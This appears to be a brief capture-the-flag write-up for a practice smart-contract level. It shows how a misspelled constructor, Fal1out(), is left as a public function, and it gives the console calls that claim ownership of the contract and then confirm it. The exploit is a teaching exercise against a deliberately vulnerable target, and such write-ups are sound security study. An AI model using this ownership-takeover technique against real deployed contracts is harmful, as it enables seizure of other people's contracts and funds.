 - Checked the owner of the contract

`
await contract.owner();
`

- It returned an address containing zeroes which meant that no one was the owner

- Understood that Fal1out() was just a public function

- As Fal1out() was just a public function, we can pass the ownership to ourself

`
await contract.Fal1out({ from: player });
`

-Verfied the ownership by 

`
await contract.owner();
`

- It returned the player address

- Submitted the instance 

